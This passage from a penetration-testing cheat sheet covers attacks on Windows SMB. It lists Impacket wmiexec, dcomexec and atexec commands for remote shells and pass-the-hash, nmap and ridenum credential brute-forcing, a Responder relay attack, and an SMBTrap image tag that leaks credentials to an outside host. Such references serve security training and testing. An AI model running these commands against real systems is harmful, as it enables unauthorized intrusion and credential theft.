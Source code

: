 Using parameter-k you can authenticate against kerberos instead of NTLM
​wmiexec/dcomexec

Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135.
In kali it is located on /usr/share/doc/python3-impacket/examples/

#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted

Using parameter-k you can authenticate against kerberos instead of NTLM

#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted

​AtExec​

Execute commands via the Task Scheduler (using \pipe\atsvc via SMB).
In kali it is located on /usr/share/doc/python3-impacket/examples/

./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"

Impacket reference

​https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/​
Bruteforce users credentials

This is not recommended, you could block an account if you exceed the maximum allowed tries

nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusername

SMB relay attack

This attack uses the Responder toolkit to capture SMB authentication sessions on an internal network, and relays them to a target machine. If the authentication session is successful, it will automatically drop you into a system shell.
More information about this attack here.​
SMB-Trap

The Windows library URLMon.dll automatically try to authenticaticate to the host when a page tries to access some contect via SMB, for example: img src="\\10.10.10.10\path\image.jpg"

This happens with the funcions:

    URLDownloadToFile

    URLDownloadToCache

    URLOpenStream

    URLOpenBlockingStream

Which are used by some browsers and tools (like Skype)
From: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html
SMBTrap using MitMf
From: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html
